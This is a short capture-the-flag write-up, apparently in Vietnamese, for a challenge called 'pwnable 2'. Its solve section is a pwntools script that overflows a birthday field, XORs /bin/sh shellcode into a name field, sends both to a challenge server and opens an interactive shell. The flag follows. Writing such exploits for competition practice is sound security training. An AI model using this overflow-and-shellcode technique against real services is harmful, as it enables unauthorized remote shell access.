

# pwnable 2

## [1] TỔNG QUAN
- Đề bài:

    

## [2] SOLVE

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'info'

host = '103.197.184.48'
port = 13333

birthday_payload = b'A' * 52 + p32(0xDEADBEEF)

shellcode = asm(shellcraft.sh())

padded_shellcode = shellcode.ljust(50, b'\0')

xor_key = birthday_payload + b'\n'

name_payload = xor(padded_shellcode, xor_key)

log.info(f"Đang kết nối đến {host}:{port}...")
p = remote(host, port)

p.recvuntil(b'- Enter your name: ')
p.sendline(name_payload)

p.recvuntil(b'- Enter your birthday: ')
p.sendline(birthday_payload)

p.interactive()

```
> **Flag**: `PTITCTF{ShElLcOdE_iS_ThE_cOrE_oF_a_PaYlOaD_4495749}`